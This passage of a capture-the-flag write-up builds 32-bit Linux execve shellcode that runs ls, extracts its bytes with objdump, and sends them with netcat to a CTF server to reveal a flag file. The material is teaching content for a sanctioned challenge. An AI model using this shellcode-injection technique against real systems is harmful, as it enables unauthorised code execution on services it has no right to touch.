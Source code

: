 ```asm
         push ebx                   ; First and only argv (the command)
         mov ecx, esp               ; Set ECX so it points to the argv list

         xor edx, edx               ; EDX represents any environment, and is usually null

         ; The system call number for execve() on 32-bit systems is 11 (0x0b)
         mov al, 0x0b               ; Use AL so we don't need zeros
         int 0x80

         mov al, 1                   ; Now exit (system call 1)
         xor ebx, ebx                ; with status 0
         int 0x80
```
I built this and ran it:
```
> nasm -felf ls-shellcode.asm -o ls-shellcode.o && ld -m elf_i386 -o ls-shellcode ls-shellcode.o
> ./ls-shellcode 
ls-shellcode	  ls-test.asm  shellcode-test	 testbed-32.o
ls-shellcode.asm  ls-test.c    shellcode-test.c  testbed.asm
ls-shellcode.o	  ls-test.i64  testbed		 testbed.i64
ls-test		  payload.bin  testbed-32	 testbed.o
```
Then I turned it into shellcode:
```
objdump -d ./ls-shellcode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x50\x68\x2f\x2f\x6c\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80\xb0\x01\x31\xdb\xcd\x80"
```
and put it in the `shellcode` array in our C testbed, compiled it and ran it:
```
> gcc -m32 shellcode-test.c -o shellcode-test
> ./shellcode-test 
ls-shellcode	  ls-test.asm  shellcode-test	 testbed-32.o
ls-shellcode.asm  ls-test.c    shellcode-test.c  testbed.asm
ls-shellcode.o	  ls-test.i64  testbed		 testbed.i64
ls-test		  payload.bin  testbed-32	 testbed.o
```
Now we can try running this on the server:
```
> python -c "print('\x31\xc0\x50\x68\x2f\x2f\x6c\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80\xb0\x01\x31\xdb\xcd\x80')" | nc ctf.hackucf.org 10103
Send me shellcode, and I'll run it for you!
Running shellcode!
flag.txt
gimmeshellcode
```
Great! We can see that there's a file named `flag.txt` there.
> **Note:** The above works in Python2. As Python3 uses Unicode for the basic string, and `print()` expects Unicode, for Python3 use:  
  `python3 -c "import sys; sys.stdout.buffer.write(b'\x31\xc0\x50\x68\x2f\x2f\x6c\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80\xb0\x01\x31\xdb\xcd\x80')" | nc ctf.hackucf.org 10103`
